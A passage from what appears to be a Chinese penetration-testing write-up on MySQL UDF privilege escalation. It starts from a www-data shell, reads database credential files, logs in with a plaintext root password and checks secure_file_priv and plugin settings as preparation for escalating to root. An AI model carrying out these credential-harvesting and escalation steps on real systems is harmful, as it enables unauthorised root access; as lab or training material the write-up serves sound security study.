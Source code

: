 ### <6> UDF 提权

1、www-data权限下，发现 mysql 程序以root身份运行，并发现两个数据库配置文件`mysqli_connect.php`，其中/var下目录找到的数据库登录凭据是可以成功登录数据库的

```plain
ps -ef | grep mysql
cat /var/www/mysqli_connect.php
cat /var/mysqli_connect.php


mysql -uroot -proot@ISIntS
mysql> select @@version;
mysql> show variables like '%plugin%';
mysql> show variables like '%compile%'; 
mysql> select * from mysql.func;

whereis lib_mysqludf_sys.so
whereis lib_mysqludf_sys_32.so
whereis lib_mysqludf_sys_64.so
```

[![](assets/1703831504-b77aad244687b6026318b391525e106a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164043-9f0aba0a-a493-1.png)

2、信息整理。  
导入导出权限查看（secure\_file\_priv为空，导入导出文件无限制）  
mysql架构信息查看（x86\_64）  
plugin目录位置（/usr/lib/mysql/plugin）

```plain
//secure_file_priv 为 NULL ，表示限制 mysqld 不允许导入导出文件，此时无法提权
//secure_file_priv 为 /tmp/ ，表示限制 mysqld 的导入导出文件只能发生在 /tmp/ 目录下，此时无法提权
//secure_file_priv 没有值，表示不对 mysqld 的导入导出文件做限制，此时可提权
```

[![](assets/1703831504-e03fff4e78881e182510cfb65fb0aac7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164051-a3ed050a-a493-1.png)
